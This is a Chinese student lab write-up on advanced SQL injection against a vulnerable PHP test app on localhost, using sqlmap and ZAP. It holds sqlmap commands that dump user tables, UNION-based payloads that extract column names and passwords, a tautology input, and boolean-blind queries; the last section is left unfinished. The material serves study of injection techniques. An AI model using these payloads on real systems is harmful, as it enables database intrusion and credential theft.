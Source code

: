 
# SQL注入（进阶）

## 环境搭建

老师的视频中给出的是 Fedola 中的搭建，但在此尝试了 Kali 下的搭建，由于文件目录等的不同，在搭建时出现了诸多问题:
尝试了
https://blog.csdn.net/weixin_54252904/article/details/117855931
https://huaweicloud.csdn.net/638db1bbdacf622b8df8c6a0.html#5mysqlphpnginxmysqlphpapache_36
https://blog.csdn.net/weixin_43268590/article/details/125650002
但都不成功，恢复了无数次快照之后，按照
https://xp-rience.blogspot.com/2020/05/nginx-php-fpm-setup-under-kali-linux.html
成功搭建了 php+nginx 的环境：
![输入图片说明](/imgs/2023-05-01/ybY35dzlQrrS24fa.png)

kali 自带 mysql，但后面还是打不开 1.php，试了好多办法还是不行，推倒重来 fedora 了
大概思路是先安装 nginx（启动，检查是否启动成功），安装php、php-fpm（启动，检查是否启动成功），修改 nginx 配置文件：监听php，这时就可以通过浏览器打开 nginx 目录下的 php 文件了，然后安装 mysql（mariadb 及服务器），使用命令`mysql_secure_installation` 配置mysql，导入需要的sql_injection表，安装 php-mysqlnd，重启 nginx，php-fpm，这是按老师的演示视频就可以打开 1.php 查看内容，*不过我打开还是空白*？但是 1.html 可以打开，输入 user id 后也可正常回显，就这样用着吧先

## 准备工作

为了便于观测，修改数据库配置文件 my.cnf，新建一个日志目录用于记录数据库查询记录，然后使用`sudo tail -f /var/log/mariadb/queries.log` 持续观察：
![输入图片说明](/imgs/2023-05-07/z1PI87MXORtb1ekc.png)

再建立一个 用于mysql查询的命令行窗口：`mysql -u root -p`，输入密码登录进入数据库，再进到表 sql_injection中：`use sql_injection`：

![输入图片说明](/imgs/2023-05-08/R2xSGCa1ApdJmNF9.png)

再建立一个用于 sqlmap 的命令行窗口：

![输入图片说明](/imgs/2023-05-08/qLjm6QeUnti30iVs.png)

在 code 命令行窗口可以查看 php 代码：
![输入图片说明](/imgs/2023-05-08/sfWoM770ThlIfcpO.png)

使用 ZAP 抓 sqlmap 发出的请求包

## 开始实验

### 目标：审阅 php 代码，通过学习 sqlmap 使用了解 sql 注入原理

#### 1.php

1.php 将通过输入的 id 查询对应学生的姓名，并将查询到的结果直接返回到页面

![输入图片说明](/imgs/2023-05-08/YVyVf1NnSjoRSYdA.png)

在 sqlmap 中，输入命令检测是否存在注入点
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries
```
*-u url*
*-p id （测试参数）*
*–fresh-queries 忽略在会话文件中存储的查询结果*

 发现回显，存在注入点，可以进行三种类型的注入：
 ![输入图片说明](/imgs/2023-05-08/Y8AhkgXd7womGHty.png)

使用
```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --dbs
```
*--dbs 获取数据库管理系统数据库*

![输入图片说明](/imgs/2023-05-08/GbhcXlkOIG4YwdRW.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --current-db
```
*--current-db 获取当前数据库*
![输入图片说明](/imgs/2023-05-08/n43hrWhDSifGhezc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries --users
```
*--users 查看用户*

![输入图片说明](/imgs/2023-05-08/HWEfeoS2X94j6hxN.png)

```
/sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection --tables
```
*-D 数据库名*
*--table 获取表名*

![输入图片说明](/imgs/2023-05-08/udeS9WkDfM1SXKBc.png)

```
./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --fresh-queries -D sql_injection -T user --dump
```
*-T 表名
--dump 转储数据库管理系统的数据库中的表项*

![输入图片说明](/imgs/2023-05-08/60I1dHEMH3GOifvW.png)

```
 ./sqlmap.py -u 'http://127.0.0.1/sql_injection/1.php?id=1&submit=submit' -p id --proxy='http://127.0.0.1:8080' --fresh-queries --current-db
```
*--proxy='http://127.0.0.1:8080' 通过此代理，设置此项即可让请求通过 ZAP，可以抓到请求包*

**这时看一下 ZAP/sql 查询记录** ，可以看到是用的 **UNION 查询**（这里以拖库时得查询为例）：

![输入图片说明](/imgs/2023-05-09/kXzNQOp5xyYlvgUm.png)
有用的查询：

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 		    	
	CONCAT(0x71787a7071,
			JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,column_name,column_type)),0x71706a7171),NULL 
				FROM INFORMATION_SCHEMA.COLUMNS 
					WHERE table_name=0x75736572 AND table_schema=0x73716c5f696e6a656374696f6e-- -'
```
输入到 sql 界面和 url 中看一下

![输入图片说明](/imgs/2023-05-09/aZEYcET0fibvIxmj.png)
![输入图片说明](/imgs/2023-05-09/Ws9GriQLjU8FiXxu.png)

可以看到该语句回显了数据库列名、每列的数据类型、数据长度

```
SELECT username,password 
FROM user WHERE id='1' 
UNION ALL SELECT 	
	CONCAT(0x71787a7071,JSON_ARRAYAGG(CONCAT_WS(0x766c66726e63,`password`,id,username)),0x71706a7171),NULL 
		FROM sql_injection.`user`-- -'
```
用该函数拖库：

![输入图片说明](/imgs/2023-05-09/EmIi4g5a3ahnV4w8.png)

同理，其他 UNION 注入也使用类似语句，如获取库名使用CAST（DATABASE）等

 - [x] 1.php 中未对展示结果进行限制（全部展示），如果对回显限制为只展示一条呢？
 
对于 3.php，每次只能输出一条 username：
![输入图片说明](/imgs/2023-05-09/90p3vA4cUp7Ay0GT.png)

再输入 `1' or '1'='1`不再显示所有 username

![输入图片说明](/imgs/2023-05-09/iEagi3JRwFAIS0ik.png)

用 sqlmap 查一下 3.php 数据库，发现发送的是：
```
SELECT username FROM user WHERE id='-4319' UNION ALL SELECT CONCAT(0x716b766b71,IFNULL(CAST(DATABASE() AS NCHAR),0x20),0x716a627071)-- -'
``` 
对比 1.php，id 用了一个不存在的负随机数“-4319”
```
SELECT username FROM user WHERE id='1' UNION ALL SELECT CONCAT(0x7176787671,IFNULL(CAST(DATABASE() AS NCHAR),0x20),0x71626a7071),NULL-- -''
```
效果，在一行输出：
![输入图片说明](/imgs/2023-05-10/i6GjbFrbaUzVen5B.png)                                                                                                                                                                                                                                                                                                                                           

UNION注入速度最快，但需要在页面直接回显数据库信息时才可使用

 - [x] 如果页面不显示数据库内部信息，只显示是或否呢

看下 5.php：会判断输入 id 是否在数据库存在，存在返回 yes，不存在返回 no
![输入图片说明](/imgs/2023-05-10/0UYlfFNTUN4teX63.png)

只返回是或否，需要使用**布尔盲注**：
试试查看数据库名：
发送了一系列请求：
```
SELECT username 
FROM user WHERE id='1' 
AND ORD
	(MID((IFNULL(CAST(DATABASE() AS NCHAR),0x20)),1,1))>64 
		AND 'bBdl'='bBdl'
```
判断数据库名第一位是否大于64，和前面 id=1 相与，进而通过回显 yes 或 no 判断真假

为真，再判断是否大于96，直至确定第一位

![输入图片说明](/imgs/2023-05-10/ceFvxKtE1vCT98LP.png)

确定第一位后，依次确定第二位等：

![输入图片说明](/imgs/2023-05-10/3HMB5h2Gs08IJ4FY.png)

直至确定完整库名

如果代码改成这样，在 yes 和 no 前后插入随机数，像 6.php 中一样：

![输入图片说明](/imgs/2023-05-10/Nuo3XBBRY86MenpM.png)

再使用上述代码会发现找不到注入点，这时就需要指定回显的字符串：
```
./sqlmap.py -u 
'http://127.0.0.1/sql_injection/8.php?id=1&submit=submit' 
-p id --technique=T --fresh-queries
-D sql_injection --string=yes -T user --current-db
```
*--string=yes 遇见 yes 判断为真*
就可以如上成功找到注入点

 - [ ] 对于无论如何都显示相同信息的，怎么办呢？

如8.php：


```
这里输入代码
```

> Written with [StackEdit中文版](https://stackedit.cn/).
>
<!--stackedit_data:
eyJoaXN0b3J5IjpbNDMyNDkzMjEzLDkwMTYwMzczOCwtMTMzNj
Y2MzUxNSwxNjAyNjQ3MTA4LDIwMzc2MDk3MDIsMTA3NTMzNzY5
LDE3NjkzMjY5ODEsMjAyMDEzMDAyOCwyNjQ2NDE2MDMsMjEyOD
U3MzE2OCwtNjYxMTk0ODc2LC0yMjAxMjYxNjAsLTg5Nzk2NzY3
MSwxNDA1MTYyMzQ5LDEwODg3MzczNDUsMjY5MjA1MDkzLC0yNT
EzODY0OTMsLTQ5ODcwMDUyOCwtMjcxNjQyOTY5LC04NTg3ODI5
NThdfQ==
-->